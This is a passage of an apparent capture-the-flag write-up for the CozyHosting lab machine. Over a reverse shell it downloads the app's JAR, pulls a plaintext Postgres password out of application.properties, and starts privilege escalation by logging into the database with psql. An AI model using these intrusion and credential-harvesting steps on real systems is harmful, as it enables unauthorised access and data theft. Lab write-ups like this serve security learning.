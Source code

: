 > Note that this method could probably be simplified; this is just what wound up working for me in the moment.
>

![reverse-shell-success](/img/cozyhosting_img/reverse-shell-success.png)

We can copy the `.jar` file from the remote machine to ours to browse it's filesystem; I assume this is what the HTTP service uses as its designated file system (Spring Boot is a Java-based application), though I've never developed web services with Java, though `JAR`, being a contraction of "Java archive", can be extracted with an archive utility into a (partially) readable filesystem - though we aren't performing a decompilation, so we won't get 100% readable source.

Regardless, we will download and extract the archive:

```bash
(remote) app@cozyhosting:/app$ ls -la
total 58856
drwxr-xr-x  2 root root     4096 Aug 14 14:11 .
drwxr-xr-x 19 root root     4096 Aug 14 14:11 ..
-rw-r--r--  1 root root 60259688 Aug 11 00:45 cloudhosting-0.0.1.jar
(remote) app@cozyhosting:/app$
(local) pwncat$ download cloudhosting-0.0.1.jar .
cloudhosting-0.0.1.jar ... 100.0% • 60.3/60.3 MB • 2.3 MB/s • 0:00:00[06:55:08] downloaded 60.26MiB in 27.64 seconds
```

Going through them by hand, the files within are *mostly* readable as is - enough to see Postgres credentials in the `application.properties` file, at least:

```toml
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled=true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

## Privilege escalation

Returning to our ssh session, we can connect to the PostgreSQL database to explore available data. I've never used Postgres until this point, so it was a little cursed having to navigate the database by hand, but I ultimately got there:


```bash

$ (remote) app@cozyhosting:/app$ psql -h localhost -U postgres

[...]

postgres=# \\\\list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
```